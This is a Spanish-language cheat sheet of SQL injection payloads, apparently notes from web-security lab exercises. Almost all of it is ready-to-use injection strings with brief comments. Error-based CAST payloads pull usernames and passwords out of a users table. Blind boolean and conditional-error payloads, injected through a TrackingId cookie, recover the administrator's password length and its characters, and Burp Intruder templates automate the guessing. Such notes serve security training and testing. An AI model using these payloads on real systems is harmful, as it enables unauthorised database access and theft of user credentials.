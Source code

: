### Ejemplo CAST
~~~sql
-- Obteniendo errores
' AND CAST((SELECT 1) AS int)-- c
'-- Obteniendo errores
' AND 1=CAST((SELECT 1) AS int)-- c

'-- Obtiene el primer <username> de la tabla <users> # Observar si la cadena de error se "trunca" debido al limite de caracteres
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- c

'-- Obtiene el primer <password> de la tabla <users> # Observar si la cadena de error se "trunca" debido al limite de caracteres
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- c
~~~

## Blind
### Ejemplo cookies
~~~sql
-- Conocer si hay una tabla llamada <users>
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a' -- c

'-- Conocer si existe el usuario <administrator> en la tabla <users>
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a' -- c

'-- Conocer la longitud del <password> del usuario <administrator> en la tabla <users>
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>0)='a' -- c

'-- Conocer la letra de la primera posicion del <password> longitud del <password> del usuario <administrator> en la tabla <users>
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' -- c

'-- Automatizacion con ClusterBomb e Intruder
TrackingId=xyz' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§' -- c
~~~

### Ejemplo CASE
~~~sql
-- Conocer si hay una tabla llamada <users>
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||' -- c

-- Conocer si existe el usuario <administrator> en la tabla <users>
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' -- c

-- Conocer la longitud del <password> del usuario <administrator> en la tabla <users> # 200 ok in response
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' -- c

-- Conocer la longitud del <password> del usuario <administrator> en la tabla <users> # 200 ok in response
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' -- c

-- Automatizacion con ClusterBomb en Burp Proxy Intruder # 500 error in response
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' -- c
~~~
